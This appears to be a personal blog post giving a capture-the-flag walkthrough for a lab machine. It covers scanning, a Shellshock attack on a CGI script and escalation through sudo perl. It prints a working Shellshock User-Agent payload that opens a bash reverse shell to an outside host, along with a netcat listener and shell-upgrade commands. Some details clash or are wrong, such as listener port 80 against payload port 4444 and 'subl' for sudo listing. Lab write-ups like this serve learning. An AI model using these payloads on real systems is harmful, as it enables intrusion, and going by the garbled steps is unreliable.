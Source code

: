 ```yaml
---
title: "My First Post"
date: 2022-12-15T21:45:44-08:00
draft: false
---
```


```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
-   ```
    perl -e 'exec "cat /root";'
    ```
```
#### Solving
- start off by doing an nmap scan
- after doing the nmap scan you should notice there are two ports that are shown to be opened
- the first port is 80, and the second is 2222
- port 80 is http, and is likely hosting a web page
- port 2222 is hosting ssh which is uncommon 
- after visting the web page, I see that there isnt much on it
- I will now use dirbuster ( a tool used to bruteforce directories using a wordlist )
- after using dirbuster I see that there is a directory for /cgi-bin
- CGI = (commen gateway interface)
- This file path is used to host scripts that use enviorment varibles that interact with the web browser 
- after visting the page I can see I get a error 403 which means this page exists but is forbidden
- I can use dirbuster agian to scan the directories inside ofthe directory /cgi-bin/
- in dirbuster I can specify that I want to look for a specific file type 
- in this case I am going to search for script file extensions (example: sh, py, php etc...)
- after doing this I have found a user.sh 
- When i vist the page /cgi-bin/user.sh it downloads a file for user.sh which is a short script for checking uptime or some bullshit
- I will look at the get/post request in burp suite
- I can see based off the cgi-bin that this web page may be vunerable to a shellshock attack
- shellshock is a remote code exectution vunurabity that often doesnt have comfirmation
- all that means is that you may be able to execute code on the backend server, but unless specifically using something to echo a response back you might not see anything 
- you can also see a response back though the http header response 
- in burp suite I am going to focus on the user agent parameter in the http request 
- inside of the user-agent area I am going to try and use a basic shellshock
```bash
() { :; }; echo; echo ls 
```
- now that I have been able to test that remote code execution is possible I can try to get a reverse shell through
- The reverse shell command I used is above 
- I will have to listen for the reverse shell using netcat
```bash
nc -lvnp 80 
```
- You should now be able to access the shell 
- now you have to upgrade to a more stable shell 
```bash
    # <catch reverse shell>
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # (inside the nc session) PRESS CTRL+Z to background your shell
    
    # back in your terminal enter
    stty raw -echo; fg
    # may need to hit enter a couple times
    
    # now you should be back in your reverse shell (fg, foregrounds your "backgrounded" process)
    export SHELL=/bin/bash; export TERM=screen
    
    # for this part you need to know the size of your terminal, which you can figure out by typing `stty size`, but this has to be done BEFORE you catch your reverse shell
    # once you know this, you can change "38" and "116" in the command below, and execute it in your reverse shell
    stty rows 38 columns 116; reset;
```
- now you can use subl to see what commands the current user can use with sudo permissions
- you can also check your permissions using groups to see what group your in
- you can also use "cat /etc/passwd" to see what shell your user is using 
- on this machine I can see that I am using perl so I will 
- seeing that this machine allows me to run perl with sudo permissions is a hint that perl will be my exploit
- I can use GTF-BINs to break bash 
- make sure to run the command from GTFO Bin as sudo
- This is becuase perl is one of the commands the current user is aloowed to run with sudo permissions


### upgrading shell 
- you have to use pythons pty to spawn a bash shell
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- after that you will wantto background the shell (CTRL+Z)
- while in ur host machines shell you can check some information
- you can use "stty -a" to get you terminals demensions
- and "echo $TERM" to check your terminals color
- then run "stty raw -echo"